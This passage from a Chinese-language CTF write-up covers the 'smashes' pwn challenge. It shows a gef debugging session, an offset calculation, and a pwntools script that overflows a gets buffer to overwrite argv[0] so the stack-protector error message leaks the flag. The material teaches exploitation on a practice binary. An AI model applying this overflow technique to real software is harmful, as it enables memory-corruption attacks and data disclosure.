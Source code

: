 我们可以确定我们读入的字符串的起始地址其实就是调用 `__IO_gets` 之前的 rsp，所以我们把断点下在 call 处，如下

```asm
gef➤  b *0x000000000040080E
Breakpoint 2 at 0x40080e
gef➤  c
Continuing.
Hello!
What's your name? 
Breakpoint 2, 0x000000000040080e in ?? ()
──────────────────────────[ code:i386:x86-64 ]────
     0x400804                  xor    eax, eax
     0x400806                  call   0x4006b0 <__printf_chk@plt>
     0x40080b                  mov    rdi, rsp
 →   0x40080e                  call   0x4006c0 <_IO_gets@plt>
   ↳    0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
        0x4006c6 <_IO_gets@plt+6> push   0x9
        0x4006cb <_IO_gets@plt+11> jmp    0x400620
        0x4006d0                  sub    rsp, 0x8
──────────────────[ stack ]────
['0x7fffffffda40', 'l8']
8
0x00007fffffffda40│+0x00: 0x0000ff0000000000	 ← $rsp, $rdi
0x00007fffffffda48│+0x08: 0x0000000000000000
0x00007fffffffda50│+0x10: 0x0000000000000000
0x00007fffffffda58│+0x18: 0x0000000000000000
0x00007fffffffda60│+0x20: 0x0000000000000000
0x00007fffffffda68│+0x28: 0x0000000000000000
0x00007fffffffda70│+0x30: 0x0000000000000000
0x00007fffffffda78│+0x38: 0x0000000000000000
────────────────────────────────────────────[ trace ]────
[#0] 0x40080e → call 0x4006c0 <_IO_gets@plt>
──────────────────────────────────────────────────────────
gef➤  print $rsp
$1 = (void *) 0x7fffffffda40
```

可以看出rsp的值为0x7fffffffda40，那么相对偏移为

```python
>>> 0x00007fffffffdc58-0x7fffffffda40
536
>>> hex(536)
'0x218'
```

#### 利用程序

我们构造利用程序如下

```python
from pwn import *
context.log_level = 'debug'
smash = ELF('./smashes')
if args['REMOTE']:
    sh = remote('pwn.jarvisoj.com', 9877)
else:
    sh = process('./smashes')
argv_addr = 0x00007fffffffdc58
name_addr = 0x7fffffffda40
flag_addr = 0x600D20
another_flag_addr = 0x400d20
payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
sh.recvuntil('name? ')
sh.sendline(payload)
sh.recvuntil('flag: ')
```